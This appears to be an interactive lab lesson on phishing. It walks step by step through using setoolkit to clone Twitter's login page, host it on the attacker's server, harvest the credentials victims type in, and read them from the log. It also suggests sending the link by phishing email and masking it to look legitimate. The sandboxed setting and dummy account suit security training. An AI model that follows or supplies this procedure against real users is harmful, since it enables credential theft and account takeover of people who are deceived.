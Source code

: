 In the previous lessons you learned about what phishing is. This lesson will use a tool called setoolkit to create a fake cloned website and harvest their credentials.

Normally, the first thing we will do is to start the setoolkit program, which you can do  by typing './setoolkit' within the 'set' folder, in a hacker distro. But we have already done this for you.

You should see a list of different options that you can select from.  

Since we are going to be tricking the user into giving secretive information. We are going to be executing a `Social Engineering Attack`. Select option number `1`{{execute}}.  

Because we will be creating a fake cloned website, we will choose the `Website Attack Vectors` option by selecting option number  `2`{{execute}}.  

Using that fake cloned website, we will be attempting to steal the victims username and password (or credentials). So we will choose the `Credential Harvesting` attack type, which is option number `3`{{execute}}.  

We will be creating a site that looks and seems exactly like another website. Select the `Site Cloner` choice number `2`{{execute}}.  

__IP Address__
The IP address also known as the internet protocol address is a unique series of numbers that shows your device is either a host network or connected to a host network so you can browse and search the internet. Our computer is provided this IP address by the router and internet network we are connected to.  

The reason why we need to type in our IP address in setoolkit is because when the user types in their credentials and the username and password have been stolen the faked cloned website needs to send the credentials back to our computer. The only way to do that is by using our unique internet protocol identifier (IP address). Also our IP address will be hosting the cloned website so that is what the user will be connecting to.

The IP address we will be using the IP address of the webserver where the setoolkit is running. DON'T use localhost:8099 which we would use if we were testing it locally.

In our case, since the instance is running within our learning environment, we will use the URL and specify that as the IP address. This includes the domain, port, host and environment information. To find out this URL, click on the Tab will says 'Hacker Website' and it will open a page in your local browser. This URL is `[[HOST_SUBDOMAIN]]-8099-[[KATACODA_HOST]].environments.katacoda.com`{{copy}}.Copy this URL and paste it into the setoolkit window where it asks for IP Address.
Press `enter` or `return` to continue.

Now you should be prompted with a text that talks about the website we will be cloning. Type in `https://twitter.com/login?lang=en`{{execute}}. This is the website we will be cloning.

You will see a message like
`[*] Cloning the website:https://twitter.com/login?lang=en
[*] This could take a little bit...

The best way to use this attack is if username and password form fields are available. Regardless, this captures all POSTs on a website.

[*] You may need to copy /var/www/* into /var/www/html depending on where your directory structure is.
Press {return} if you understand what we're saying here.`

Press `enter` or `return` to continue.

You will see a message like `[*] Apache is set to ON - everything will be placed in your web root directory of apache.
[*] Files will be written out to the root directory of apache.
[*] ALL files are within your Apache directory since you specified it to ON.
[!] Apache may be not running, do you want SET to start the process? [y/n]:`

Press `y`{{execute}} to start the `Apache` web server.

Now you will see something like `Apache webserver is set to ON. Copying over PHP file to the website.
Please note that all output from the harvester will be found under apache_dir/harvester_date.txt
Feel free to customize post.php in the /var/www/html directory
[*] All files have been copied to /var/www/html
[*] SET is now listening for incoming credentials. You can control-c out of this and completely exit SET at anytime and still keep the attack going.
[*] All files are located under the Apache web root directory: /var/www/html
[*] All fields captures will be displayed below.
[Credential Harvester is now listening below...]`

Leave the credential harvester running for now. We will come back to this later.

Now, let us pretend that you sent a phishing email to a target telling them to check out a cool new post/tweet and you gave them the fake link. You can go even to the extent of masking the IP or the link so that the link looks legitimate; like it is from twitter.com (For time purposes, we won't do this). Normally most people would click on it, especially if they trust you.

Now think of yourself as the one receiving the phishing email and you clicked on the link. To simulate this, click on the tab that reads `Hacker Website` (this will be the phishing website that a real user would get redirected to when they click on the phishing link). It will open up the page and show the cloned (fake) website. You should see a website that looks likes the exact same as the real http://twitter.com/login?lang=en.

Note: Since it is possible that the login page may be localized in a language from where the web server is hosted. You can click on translate if prompted to translate the page.

Type in a `username` and `password`. It can be anything. It is advisable that for this learning purposes, you do not use your real twitter account username and/or password. Click on the button that says `Login` (or if translated it may say Register).

On the terminal window you should see the username and password that you typed in the browser displayed as shown below:
`('Array\n',)
('(\n',)
('    [session] => Array\n',)
('        (\n',)
('            [username_or_email] => klms_student\n',)
('            [password] => klmsR0x\n',)
('        )\n',)
('\n',)
`
This same information is also logged inside a log file in the `/var/www/html` directory. That file is named with the timestamp when the log entry was made.

Go back to the `Terminal` window where the Credential harvester is running.

Press <kbd>Ctrl</kbd>+<kbd>C</kbd> `Ctrl-C`{{execute interrupt}} on the terminal window to close the setoolkit program. You will get a notice though you are exiting the program, the social engineering credential harvester request is still running and logging as shown below.
`[*] Exiting the menu - note that everything is still running and logging under your web directory path: /var/www/html
{Press return to continue}`

Press the enter key or return {{execute}} to continue.
Then type `exit`{{execute}} in the prompt `set:webattack>` to get out of the setoolkit tool.

In the command prompt, type `cd /var/www/html`{{execute}} to navigate to directory where the log files are.

Now go back to the `Terminal` window. Type `ls -la`{{execute}} and see that there is a harvester file with a new timestamp. E.g., `harvester_2020-01-11 21:39:55.714597.txt` The credentials we hacked will be in this file. You can read the contents of this file using the `cat` command. `cat` the harvester file with the latest timestamp. Once you `cat` that file, you should see something like with the credentials that got hacked in it.
`(
    [username_or_email] => klms_student
    [password] => klmsR0x
)`

You have learned how to successfully social engineer and hack someone!
